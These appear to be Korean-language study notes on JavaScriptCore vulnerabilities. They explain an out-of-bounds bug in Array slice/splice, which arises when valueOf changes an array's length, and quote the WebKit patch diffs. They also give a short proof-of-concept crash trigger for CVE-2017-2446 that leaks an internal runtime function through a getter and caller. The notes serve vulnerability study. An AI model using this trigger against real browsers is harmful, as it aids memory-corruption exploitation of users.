 만약 `slice` 를 호출할 때 `valueOf` 함수를 통해 배열의 `length 속성`을 바꾼다면, slice 의 내부에서는 바꾸기 전의 length 값을 계속 사용할 것이고, 이는 memcpy가 실행되는 시점에 Out-Of-Bounds Access(이하 OOB Access)로 이어질 것이다.

```
// @@ -863,7 +863,7 @@ EncodedJSValue JSC_HOST_CALL arrayProtoFuncSlice(ExecState* exec)
    if (UNLIKELY(speciesResult.first == SpeciesConstructResult::Exception))
        return JSValue::encode(jsUndefined());

    //if (LIKELY(speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj))) {
    if (LIKELY(speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj) && length == getLength(exec, thisObj))) {
        if (JSArray* result = asArray(thisObj)->fastSlice(*exec, begin, end - begin))
            return JSValue::encode(result);
    }

```

```
// @@ -932,7 +932,7 @@ EncodedJSValue JSC_HOST_CALL arrayProtoFuncSplice(ExecState* exec)
        return JSValue::encode(jsUndefined());

    JSObject* result = nullptr;
    //if (speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj))
	if (speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj) && length == getLength(exec, thisObj))
        result = asArray(thisObj)->fastSlice(*exec, begin, deleteCount);

    if (!result) {

```

`argumentClampedIndexFromStartOrEnd` 함수에서 처리할때 length 속성만 좀 생각하고 하면 될꺼 위의 [코드 패치](https://github.com/WebKit/webkit/commit/650552a6ed7cac8aed3f53dd464341728984b82f)보면 `fastSlice` 에 대한 길이값 검증만 추가됨.

그 이외에 JSC 힙, 가비지 컬렉터 좀 보고 공부하고 요약 필요할듯?

## CVE-2017-2446

```
var q;
// this is a non-strict chunk of code, so getting the caller is allowed
function g(){
    q = g.caller;
    return 7;
}

var a = [1, 2, 3];
a.length = 4;
// when anything, including the runtime, accesses a[3], g will be called
Object.defineProperty(Array.prototype, "3", {get : g});
// trigger the runtime access of a[3]
[4, 5, 6].concat(a);
// q now is a reference to an internal runtime function
q(0x77777777, 0x77777777, 0); // crash

```
